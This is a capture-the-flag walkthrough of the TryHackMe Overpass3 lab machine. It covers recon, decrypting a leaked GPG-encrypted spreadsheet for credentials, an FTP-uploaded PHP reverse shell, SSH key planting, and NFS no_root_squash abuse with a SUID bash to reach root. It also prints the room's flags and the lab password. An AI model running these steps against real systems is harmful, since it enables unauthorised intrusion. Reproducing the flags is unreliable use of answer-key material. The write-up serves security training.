## About Overpass3


**Name:** Overpss3

**Room:** https://tryhackme.com/room/overpass3hosting

**Difficulty:** Medium

**OS:** Linux

**Target IP:** `10.49.152.7`

---
## Recon

I'll start, as always, with a full port scan to enumerate open ports, running services, and the OS:

```
nmap -sV -sC -O -v -p- 10.49.152.7 -oA Overpass3
```



This confirms port 80 is open, so I'll check out the web application first. Browsing to the target IP just gives a default landing page, nothing useful there.



I have no luck finding anything sensitive in the page source, so I decide to run directory brute forcing with `ffuf`:

```
ffuf -u http://10.49.152.7/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```



This turns up an interesting `backups` directory. Navigating into it, I find a zip file that looks promising, so I download it to go through more carefully.



## Foothold

After downloading and extracting the zip file, there are two files inside: 
- `CustomerDetails.xlsx.gpg` - which looks like an encrypted spreadsheet.
- `priv.key` - which I initially assume is an SSH private key based on the extension, though that still needs checking.



Despite the `.key` extension suggesting SSH, inspecting `priv.key` shows it's actually a GPG private key. The header in the file confirms it's a PGP key block rather than an OpenSSH one.



I'll import it:

```
gpg --import priv.key
```

The import succeeds with no passphrase required, and it reveals the key owner as `paradox@overpass.thm`.



Now I can decrypt the spreadsheet:

```
gpg --output CustomerDetails.xlsx --decrypt CustomerDetails.xlsx.gpg
```




I could open this in LibreOffice, but I go with a quick Python script instead, just to dump the rows straight to the terminal:

```
python3 -c "
import openpyxl
wb = openpyxl.load_workbook('CustomerDetails.xlsx')
ws = wb.active
for row in ws.iter_rows(values_only=True):
    print(row)
"
```

This gives us some sensitive information, including a username and password, which I figure is worth trying against the SSH or FTP services found earlier.



SSH doesn't work with these credentials, but I get lucky with FTP, logging in fine with `paradox:ShibesAreGreat123`.



From here, I can upload a reverse shell and get a connection, using [pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).



I start a listener (I used Penelope here, though `netcat` works just as well) and visit `http://10.49.152.7/shell.php` to trigger the connection.



The first web flag sits inside the `/usr/share/httpd` directory, and I can read it: `thm{0ae72f7870c3687129f7a824194be09d}`.



## Privilege Escalation

Poking around the home directory, there are two users, `james` and `paradox`. I try reusing the password recovered from the spreadsheet against `paradox`, and it works.



I upload `linpeas` through the FTP server and run it. Going through the output, it flags NFS as possibly misconfigured, worth following up on.



I try listing and mounting the NFS share directly from my attack machine, but that doesn't work.



This means the share can only be accessed locally, as the user `james`. For that, I'll set up SSH local port forwarding.

First, I generate an SSH key pair on my attack host:

```
ssh-keygen -f paradox
```

This gives me a private key (`paradox`) and a public key (`paradox.pub`), which lets us authenticate as `paradox` without needing his password.



I'll add the contents of public key to the target's authorized keys file:

```
echo "<content of public key>" >> /home/paradox/.ssh/authorized_keys
```

Then, from a new terminal, I SSH into the target with this key:

```
ssh -i paradox paradox@10.49.152.7
```

Now I check which port NFS is listening on:

```
rpcinfo -p
```

This lists the registered RPC services and their ports, and confirms NFS is listening on port `2049`.



With that confirmed, I set up SSH local port forwarding so all traffic sent to the local port gets redirected through the tunnel to that same port on the target, effectively letting me reach the NFS share as if it were local:

```
ssh paradox@10.49.152.7 -i paradox -L 2049:localhost:2049
```

Because of this active tunnel, mounting `localhost` on my machine actually connects through to the real NFS share on the target.



The mount succeeds, and I can read the user flag: `thm{3693fc86661faa21f16ac9508a43e1ae}`.



Moving ahead, I need a new SSH key pair, this time for `james`:

```
ssh-keygen -f james_key
cat james_key.pub
```



Then, from my NFS-mounted access, I drop the public key into `james`'s authorized keys:

```
echo "<contents of james_key.pub>" >> ~/nfs/.ssh/authorized_keys
```

Now I can log in as `james`:

```
ssh -i james_key james@10.49.152.7
```

On the victim machine, I copy the `bash` binary into `james`'s home directory:

```
cp /bin/bash .
```



Back on my attacking machine, working through the NFS mount, I change the ownership and permissions on that copied binary:

```
sudo chown root:root bash
sudo chmod +s bash
```



Back on the victim machine, running the binary with `./bash -p` gives a root shell, since it now runs with the SUID bit set and is owned by `root`.



From here, I can read the root flag: `thm{a4f6adb70371a4bceb32988417456c44}`.



---
